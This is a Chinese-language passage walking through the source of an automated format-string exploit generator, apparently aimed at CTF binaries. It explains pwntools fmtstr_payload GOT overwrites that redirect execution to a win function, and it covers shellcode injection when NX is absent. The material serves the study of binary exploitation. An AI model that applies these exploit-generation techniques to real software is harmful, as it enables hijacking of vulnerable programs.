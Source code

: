 其中使用 `assembleInput` 函数计算得到输入的字符串。`runIteration` 函数用于发送 payload 并处理得到的字符串。

如果存在目标函数，则覆盖某一 got 表项为目标函数的地址：

```python
	# 对于存在目标函数的情况
    if len(properties['win_functions']) > 0:
        for func in properties['win_functions']:
            address = properties['win_functions'][func]['fcn_addr'] #获取目标函数
            for got_name,got_addr in properties['protections']['got'].items(): # 遍历 got 表项
                print("[~] Overwritting {}".format(got_name))
                writes = {got_addr:address}
                format_payload = fmtstr_payload(stack_position, writes, numbwritten=input_pos) # 构造 payload,将 got 地址改为目标函数地址
                if len(format_payload) > input_len:
                    print("[~] Format input to large, shrinking")
                    format_payload = fmtstr_payload(stack_position, writes, numbwritten=input_pos, write_size='short')

                format_input = assembleInput(format_payload,start_slice,end_slice,input_len) # 获取输入字符串
				# 发送payload 并处理返回结果
                results = sendExploit(binary_name,properties,format_input) 
                if results['flag_found']:
                    exploit_results['flag_found'] = results['flag_found']
                    exploit_results['input'] = format_input
                    return exploit_results
        return exploit_results
```

构造 `payload` 时利用了 `pwntools` 的 `fmtstr_payload` 工具（ `format_payload` 详细 [API信息](https://docs.pwntools.com/en/stable/fmtstr.html#pwnlib.fmtstr.fmtstr_payload) )

`fmtstr_payload` 用于自动生成格式化字符串 `payload`：

```python
pwnlib.fmtstr.fmtstr_payload(offset, writes, numbwritten=0, write_size='byte')

- offset (int)：控制的第一个格式化变量的偏移量
- writes (dict)：格式为 {addr: value, addr2: value2}， 往 addr 里写入 value 的值（常用：----{printf_got}）
- numbwritten (int)：已经由 printf 函数写入的字节数
```

如果不存在目标函数，且没有 NX 保护，则考虑写入 `shellcode`，修改 got 地址指向 shellcode:

```python
elif not properties['protections']['nx']:
        print("[+] Binary does not have NX")
        print("[+] Overwriting GOT entry to point to shellcode")
        rediscoverAndExploit(binary_name,properties,stack_position) 
```

`rediscoverAndExploit` 重新探索程序状态进行漏洞利用，部分逻辑与 `formatDetector` 模块相似。

下面看一下具体实现：

```python
properties['shellcode'] = getShellcode(properties)
properties['stack_position'] = stack_position
inputType = properties['input_type']
p = angr.Project(binary_name)
p.hook_symbol('printf',printFormatSploit)
```
